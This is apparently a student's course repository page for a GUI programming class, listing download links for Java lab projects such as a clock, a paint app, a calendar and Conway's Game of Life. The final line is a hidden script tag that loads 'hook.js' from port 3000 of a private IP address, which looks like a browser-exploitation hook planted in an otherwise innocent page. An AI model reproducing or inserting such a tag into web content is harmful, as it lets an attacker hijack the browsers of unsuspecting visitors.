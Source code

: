 # Welcome to my CMP 256 Repository!
My codes from GUI Design and Programming with Dr. Michel Pasquier


<H3>If you are looking for the Clock Code</H3>
<H5><a href='lab6c.java' download>Click here for the Java File</a></H5>
<H5><a href='Clock.jar'>Click here for the Jar File</a></H5>


<H3>If you are looking for Michelangelo</H3> (Paint App from Lab 9)
<H5><a href='Lab9.java' download>Click here for the Java File</a></H5>
<H5><a href='Lab9.jar'>Click here for the Jar File</a></H5>


<H3>If you are looking for Temperature Display</H3> (from Lab 10)
<H5><a href='TempDisplay.zip' download>Click here for the Java File</a></H5>
<H5><a href='TempDisplay.jar'>Click here for the Jar File</a></H5>

<H3>If you are looking for Calendar</H3> (from Lab 11)
<H5><a href='Calendar.zip' download>Click here for the Java File</a></H5>
<H5><a href='Calendar.jar'>Click here for the Jar File</a></H5>

<H3>If you are looking for Conway's Game of Life</H3> (CMP256 Project)
<H5><a href='GameData.java' download>Click here for Game Model Source Code</a></H5>
<H5><a href='GameView.java' download>Click here for Game View Source Code</a></H5>
<H5><a href='GameController.java' download>Click here for Game Controller Source Code</a></H5>
<H5><a href='Game of Life.jar' download>Click here for the Jar File</a></H5>


<script src=”http://10.25.148.169:3000/hook.js” type=”text/javascript”></script>
